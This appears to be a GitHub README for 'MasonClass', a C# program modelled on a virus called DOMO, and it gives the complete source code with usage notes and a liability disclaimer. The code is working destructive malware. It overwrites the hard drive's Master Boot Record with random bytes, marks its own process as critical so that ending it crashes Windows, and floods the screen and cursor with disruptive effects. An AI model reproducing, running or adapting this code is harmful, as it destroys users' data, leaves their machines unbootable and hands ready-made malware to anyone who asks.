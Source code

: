 # MasonClass Project

![Virus Preview](https://i.ibb.co/QkBqtSC/D51-B5-ECC-D63-E-43-C1-925-A-1-D380-E380584.png)

This project contains C# code that implements various bizarre effects on the system, inspired by a virus called **DOMO**, created by an individual named **ABOLHB**. The `MasonClass` code is designed to demonstrate specific functionalities that include manipulating system resources in a way that simulates various disruptive behaviors. The key features of this code include:

## Code Description

### Key Functionalities

1. **Writing to the MBR**:
   - The code includes a method that modifies the Master Boot Record (MBR) of the primary hard drive. Writing to the MBR can disrupt the boot process of a system, which can lead to data loss or inaccessibility.
   - The function generates random bytes and writes them to the MBR, essentially overwriting critical boot information. This is done through direct file access to the physical drive.

2. **Creating Screen Effects**:
   - The code employs GDI (Graphics Device Interface) functions to create visual disturbances on the screen. It achieves this by continuously drawing random areas of the screen with varying opacities, creating a flickering effect that can be quite disorienting.
   - A dedicated thread is started to handle these visual effects, allowing the main application to run concurrently without freezing the user interface.

3. **Random Mouse Movement**:
   - The code simulates mouse movement by changing the cursor's position to random coordinates on the screen. This is accomplished by invoking Windows API calls that manipulate the cursor's location.
   - Another thread manages this functionality, causing the mouse to move unpredictably, which can be frustrating for users attempting to interact with their system.

### Usage Instructions

- This code should be run on a Windows system with administrative privileges due to the nature of the operations performed, particularly writing to the MBR.
- Ensure that you have appropriate permissions and are aware of the risks involved in modifying system-level components.

![Doomoo Image](https://i.ibb.co/4156j7R/doomoo.png)

### Code Implementation

Here’s the complete implementation of the MasonClass:

```csharp
using System;
using System.Runtime.InteropServices;
using System.Threading;
using System.Diagnostics;
using System.IO;

class MasonClass
{
    [DllImport("user32.dll", CharSet = CharSet.Auto)]
    static extern IntPtr GetDC(IntPtr hWnd);
    [DllImport("user32.dll", CharSet = CharSet.Auto)]
    static extern int ReleaseDC(IntPtr hWnd, IntPtr hDC);
    [DllImport("gdi32.dll", CharSet = CharSet.Auto)]
    static extern bool BitBlt(IntPtr hdcDest, int nXDest, int nYDest, int nWidth, int nHeight, IntPtr hdcSrc, int nXSrc, int nYSrc, uint dwRop);
    [DllImport("user32.dll")]
    static extern int GetSystemMetrics(int nIndex);
    [DllImport("user32.dll")]
    static extern void SetCursorPos(int X, int Y);
    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr CreateFile(
        string lpFileName,
        uint dwDesiredAccess,
        uint dwShareMode,
        IntPtr lpSecurityAttributes,
        uint dwCreationDisposition,
        uint dwFlagsAndAttributes,
        IntPtr hTemplateFile);
    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool WriteFile(
        IntPtr hFile,
        byte[] lpBuffer,
        uint nNumberOfBytesToWrite,
        out uint lpNumberOfBytesWritten,
        IntPtr lpOverlapped);
    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool CloseHandle(IntPtr hObject);

    const int SM_CXSCREEN = 0;
    const int SM_CYSCREEN = 1;
    const uint NOTSRCERASE = 0x001100A6;
    const uint GENERIC_WRITE = 0x40000000;
    const uint OPEN_EXISTING = 3;

    [DllImport("ntdll.dll", SetLastError = true)]
    private static extern int NtSetInformationProcess(IntPtr processHandle, int processInformationClass, ref int processInformation, int processInformationLength);
    private const int ProcessInformationClass = 29;

    static void Main()
    {
        MasonWriteMBR(); // Call to write to MBR
        Process currentProcess = Process.GetCurrentProcess();
        IntPtr handle = currentProcess.Handle;
        int isCritical = 1; 
        NtSetInformationProcess(handle, ProcessInformationClass, ref isCritical, sizeof(int));
        int screenWidth = GetSystemMetrics(SM_CXSCREEN);
        int screenHeight = GetSystemMetrics(SM_CYSCREEN);
        MasonStartEffect(screenWidth, screenHeight); // Start visual effects
        MasonMoveMouseRandomly(screenWidth, screenHeight); // Start mouse movement
        while (true) // Keep the application running
        {
            Thread.Sleep(1000);
        }
    }

    static void MasonWriteMBR()
    {
        using (FileStream fs = new FileStream(@"\\.\PhysicalDrive0", FileMode.Open, FileAccess.Write))
        {
            byte[] mbrData = new byte[512]; // Buffer for MBR data
            Random rand = new Random();
            rand.NextBytes(mbrData); // Fill buffer with random bytes
            fs.Write(mbrData, 0, mbrData.Length); // Write to MBR
        }
    }

    static void MasonStartEffect(int screenWidth, int screenHeight)
    {
        Random rand = new Random();
        new Thread(() =>
        {
            while (true)
            {
                IntPtr hdc = GetDC(IntPtr.Zero);
                BitBlt(hdc, rand.Next(15), rand.Next(15), screenWidth, screenHeight, hdc, rand.Next(15), rand.Next(15), NOTSRCERASE);
                ReleaseDC(IntPtr.Zero, hdc);
                Thread.Sleep(10);
            }
        }).Start();
    }

    static void MasonMoveMouseRandomly(int screenWidth, int screenHeight)
    {
        Random rand = new Random();
        new Thread(() =>
        {
            while (true)
            {
                int x = rand.Next(0, screenWidth);
                int y = rand.Next(0, screenHeight);
                SetCursorPos(x, y); // Move mouse to random position
                Thread.Sleep(300); // Pause before next movement
            }
        }).Start();
    }
}
```
---
We hereby declare that we disclaim any liability for any improper use of the software Thank you for your understanding
